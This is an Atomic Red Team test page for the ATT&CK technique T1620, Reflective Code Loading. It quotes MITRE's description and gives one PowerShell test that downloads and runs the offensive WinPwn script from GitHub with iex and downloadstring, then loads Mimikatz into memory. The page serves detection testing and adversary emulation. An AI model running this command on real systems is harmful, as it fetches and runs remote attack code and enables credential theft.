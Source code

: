 # T1620 - Reflective Code Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1620)
<blockquote>Adversaries may reflectively load code into a process in order to conceal the execution of malicious payloads. Reflective loading involves allocating then executing payloads directly within the memory of the process, vice creating a thread or process backed by a file path on disk. Reflectively loaded payloads may be compiled binaries, anonymous files (only present in RAM), or just snubs of fileless executable code (ex: position-independent shellcode).(Citation: Introducing Donut)(Citation: S1 Custom Shellcode Tool)(Citation: Stuart ELF Memory)(Citation: 00sec Droppers)(Citation: Mandiant BYOL)

Reflective code injection is very similar to [Process Injection](https://attack.mitre.org/techniques/T1055) except that the “injection” loads code into the processes’ own memory instead of that of a separate process. Reflective loading may evade process-based detections since the execution of the arbitrary code may be masked within a legitimate or otherwise benign process. Reflectively loading payloads directly into memory may also avoid creating files or other artifacts on disk, while also enabling malware to keep these payloads encrypted (or otherwise obfuscated) until execution.(Citation: Stuart ELF Memory)(Citation: 00sec Droppers)(Citation: Intezer ACBackdoor)(Citation: S1 Old Rat New Tricks)</blockquote>

## Atomic Tests

- [Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory](#atomic-test-1---winpwn---reflectively-load-mimiktz-into-memory)


<br/>

## Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory
Reflectively load Mimik@tz into memory technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 56b9589c-9170-4682-8c3d-33b86ecb5119






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
mimiload -consoleoutput -noninteractive
```






<br/>
